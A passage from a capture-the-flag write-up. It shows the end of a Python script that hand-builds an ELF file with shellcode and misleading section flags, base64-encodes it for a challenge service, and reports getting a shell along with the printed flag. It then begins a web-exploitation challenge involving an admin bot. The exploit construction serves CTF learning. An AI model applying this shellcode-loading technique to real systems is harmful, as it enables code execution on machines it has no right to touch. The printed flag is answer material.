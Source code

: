 ```python
shdr_null += p64(0)   # sh_addralign: No alignment
shdr_null += p64(0)   # sh_entsize: No entry size

# .text section (contains shellcode) - NOT marked as executable
shdr_text = p32(1)    # sh_name: .text
shdr_text += p32(1)   # sh_type: SHT_PROGBITS
shdr_text += p64(2)   # sh_flags: SHF_ALLOC (no SHF_EXECINSTR)
shdr_text += p64(VADDR_BASE + SHELLCODE_OFFSET)  # sh_addr: Virtual address
shdr_text += p64(SHELLCODE_OFFSET)  # sh_offset: File offset
shdr_text += p64(len(shellcode))  # sh_size: Section size
shdr_text += p32(0)   # sh_link: No link
shdr_text += p32(0)   # sh_info: No info
shdr_text += p64(16)  # sh_addralign: 16-byte alignment
shdr_text += p64(0)   # sh_entsize: No entry size

# .shstrtab section (contains section names)
shdr_shstrtab = p32(9)  # sh_name: .shstrtab
shdr_shstrtab += p32(3)  # sh_type: SHT_STRTAB
shdr_shstrtab += p64(0)  # sh_flags: No flags
shdr_shstrtab += p64(0)  # sh_addr: No address
shdr_shstrtab += p64(strtab_offset)  # sh_offset: File offset
shdr_shstrtab += p64(len(strtab))  # sh_size: Section size
shdr_shstrtab += p32(0)  # sh_link: No link
shdr_shstrtab += p32(0)  # sh_info: No info
shdr_shstrtab += p64(1)  # sh_addralign: 1-byte alignment
shdr_shstrtab += p64(0)  # sh_entsize: No entry size

# Combine everything
elf_file = ehdr + phdr + shellcode + shdr_null + shdr_text + shdr_shstrtab + strtab

# Base64 encode the ELF file for input to fairy.py
encoded = base64.b64encode(elf_file)
print(encoded.decode())
```

Running it, we get shell and flag!

`squ1rrel{you_3x3c'd_me_:(}`

## Web Exploitation

### portrait

> It's like DeviantArt, but with a report button to keep it less Deviant. Reporting a gallery will make the admin bot visit it.
>
> http://52.188.82.43:8070/

Ok so first off there was kinda an unintended that made this chall sooo much easier. But it got taken down and patched...

Let's just check out some functionality + goals
